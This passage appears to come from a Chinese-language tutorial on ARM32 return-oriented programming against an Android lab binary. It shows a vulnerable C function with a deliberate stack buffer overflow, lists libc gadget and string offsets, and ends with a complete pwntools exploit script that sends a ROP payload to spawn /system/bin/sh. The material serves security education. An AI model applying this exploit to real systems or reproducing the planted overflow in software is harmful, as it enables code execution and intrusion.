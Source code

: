 ```
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
getsystemaddr();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
}
```

这个程序会先输出system的地址，相当于我们已经获取了这个进程的内存布局了。接下来要做的就是在libc.so中寻找我们需要的gadgets和字符串地址。因为libc.so很大，我们完全不用担心找不到需要的gadgets，并且我们只需要控制一个r0即可。因此这些gadgets都能满足我们的需求：

```
#!bash
0x00014f48 : ldr r0, [sp, #4] ; pop {r1, r2, r3, pc}
0x0002e404 : ldr r0, [sp, #4] ; pop {r2, r3, r4, r5, r6, pc}
0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
```

接下来就是在libc.so中找`system()`和`"/system/bin/sh"`的位置：

![image-20190213013436730](assets/hacker_rop_arm32/image-20190213013436730.png)

![image-20190213013452282](assets/hacker_rop_arm32/image-20190213013452282.png)

可以看到地址分别为`0x000253A4`和`0x0003F9B4`。当然了，就算获取了这些地址，我们也需要根据`system()`在内存中的地址进行偏移量的计算才能够成功的找到gadgets和`"/system/bin/sh"`在内存中的地址。除此之外，还要注意thumb指令和arm指令的转换问题。最终的exp level8.py如下：

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level8')
p = remote('127.0.0.1',10001)

system_addr_str = p.recvuntil('\n')
print "str:" + system_addr_str
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

p.recvuntil('\n')

#.text:000253A4                 EXPORT system

#0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
gadget1 = system_addr + (0x00034ace - 0x000253A4)
print "gadget1 = " + hex(gadget1)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
r0 = system_addr + (0x0003F9B4 - 0x000253A4) - 1
print "/system/bin/sh addr = " + hex(r0)

payload =  '\x00'*132 + p32(gadget1) + p32(r0) + "\x00"*0x8 + p32(system_addr)

p.send(payload)

p.interactive()
```
